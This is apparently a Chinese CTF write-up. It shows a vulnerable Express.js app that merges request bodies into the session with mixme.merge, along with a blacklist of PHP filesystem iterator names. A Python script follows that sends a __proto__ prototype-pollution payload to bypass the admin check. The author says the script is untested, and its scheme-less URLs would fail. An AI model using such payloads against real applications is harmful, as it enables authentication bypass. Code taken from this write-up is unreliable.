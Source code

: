 # 实战

```plain
```javascript
const http = require("http");
const express = require("express");
const bodyParser = require("body-parser");
const mixme = require("mixme");
const session = require("express-session");
const randomize = require("randomatic");
const morgan = require("morgan");
const app = express();//类似定义的宏常量
app.set("json escape", true);//转义
app.use(morgan("short"));
app.use(bodyParser.urlencoded({ extended: true })).use(bodyParser.json());
// app.use(express.json());
app.use(
session({
name: "session",
secret: randomize("aA0", 16),
resave: false,
saveUninitialized: false,
})
);
const Super = {
passone: process.env.sperson,//环境变量控制
};
function blacklist(url) {
var evilwords = ["DirectoryIterator", "FilesystemIterator", "GlobIterator"];//这里面都是php的类名
var arrayLen = evilwords.length;
for (var i = 0; i < arrayLen; i++) {
const trigger = url.includes(evilwords[i]);
if (trigger === true) {
return true;
}
}
}
//TODO
//get url content
app.post("/getinfo", (req, res) => {
console.log(req.body);
if (req.body.userid === undefined || req.body.key === undefined) {
res.send("you want to post null?");
} else {
let userid = req.body.userid;
let key = req.body.key;
console.log(userid);
console.log(key);//在控制台上输出信息
if (Super[userid] === key) {
res.send(
"admin!\nyou can goto ***** endpoint to hack!"
);
} else {
res.send("You are not the Super, so I cannot give you the truth.");
}
}
});
app.all("/", (req, res) => {
let data = { userid: [], key: [] };
console.log(data);
console.log(req.body);
if (req.method == "POST" && req.body) {
data = mixme.merge(data, req.body);
req.session.data = data;
// console.log("After MERGE: " + Super["test"]);
}
res.send("to be admin and you will find it!");
});
app.listen(3000, () => console.log(`Example app listening on port 3000!`));
```
Plain Text
```



这就是那天的源码


第66行有个merge合并函数


51行有个比较绕过


我们通过原型链的污染来过


代码逻辑不是很难


所以最终我们只需要传参就ok。后台估计是有东西是一直在删除，所以最好整个脚本。


```plain
import requests
import time
url1='127.0.0.1'
url2='127.0.0.1/getinfo'
post_data1='{"__proto__":{"a":"b"}}'
post_data2='{"userid":"a","key":"b"}'
headers = {
"Content-Type":"application/json"
}
reqs1=requests.post(url1,data=post_data1,headers=headers)
print(reqs1.text)
time.sleep(0.5)
reqs2=requests.post(url2,data=post_data2,headers=headers)
print(reqs2.text)
Plain Text
```



（我没用过但应该就这样吧...）



